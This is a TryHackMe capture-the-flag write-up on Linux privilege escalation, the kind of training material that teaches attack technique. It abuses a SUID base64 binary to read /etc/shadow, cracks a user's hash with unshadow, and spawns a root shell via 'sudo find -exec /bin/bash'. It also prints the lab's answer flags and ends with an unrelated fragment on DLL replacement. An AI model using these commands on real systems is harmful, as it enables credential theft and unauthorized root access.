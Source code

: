 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/capstone/","tags":["CTF","write-up","SUID","sudo-l"]}
---
```



---
# Privilege Escalation
## Check for SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
We found `base64`
![Pasted image 20240819181358.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181358.png)
## Use https://gtfobins.github.io/ to exploit it.
We can read any file, we read `/etc/shadow` to see the hash of other users.
```shell
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
![Pasted image 20240819181615.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181615.png)
## On our machine crack the hash missy
Create a file passwd, copy the missy line of passwd
![Pasted image 20240819181914.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181914.png)
Create the shadow, copy the missy line of shadow
![Pasted image 20240819182033.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182033.png)
Unshadow the file using `unshadow` to the unshadowed file
```shell
unshadow passwd shadow > unshadowed
```
Crack the unshadowed file
![Pasted image 20240819182246.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182246.png)
## Get the first flag
Login as missy
```shell
su missy
```
The flag is on `/home/missy/Documents`
![Pasted image 20240819182541.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182541.png)
> [!check]- flag1.txt
> THM-42828719920544
## Escalate to root

Check `sudo -l` for missy
![Pasted image 20240819183619.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183619.png)
Leverage `find`
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
![Pasted image 20240819183906.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183906.png)
We are root now
## Get the second flag
![Pasted image 20240819184137.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819184137.png)
> [!check]- flag2.txt
> THM-168824782390238

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>
